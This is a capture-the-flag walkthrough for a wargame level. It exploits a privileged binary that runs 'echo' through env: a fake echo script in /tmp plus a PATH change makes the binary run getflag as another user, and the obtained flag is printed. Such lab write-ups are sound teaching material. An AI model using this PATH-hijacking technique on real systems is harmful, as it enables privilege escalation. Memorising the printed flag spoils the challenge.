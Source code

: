 # Level02

### Tools
strings command : https://ioflood.com/blog/strings-linux-command/


### How to solve it

1. After loging in using ssh in level03@(vmIP): 
```
ssh level02@000.000.000.000 -p 4242
```
2. We use the ls command and it shows level03 file
```
level03
```
3. Then we have to try to execute it and we get a message
```
Exploit me
```
4. In order to check whats inside we use strings function to get printable information inside it
```
strings level03 and if you want to find it faster using Exploit string just add a pipe with Exploit strings level03 | grep Explot
```
5. The we have a path along with Exploit me string
```
/usr/bin/env echo Exploit me
```
6. So now we know the path that echo is called with system() like system("/usr/bin/env echo Exploit me.") and then we have to use it to run getflag inside the program.
6. The problem is we have to run it inside their system and we have to use flag03 user to execute it, one way is exchanging the echo command for the getflag command.
7. First we create a file in /tmp with a echo that will get the flag and then we give permisson for it.
```
echo -e '#!/bin/bash\ngetflag' > /tmp/echo 
chmod +x /tmp/echo
```
8. The we have export the PATH of this echo to env
```
export PATH=/tmp:$PATH

```
8. Now we run the program and our fake echo will run getflag inside it and we now have the flag:
```
qi0maab88jeaj46qoumi7maus
```
### How to protect
 - This only works because the program sets the current user to flag03, if it was not implemented it wouldnt work

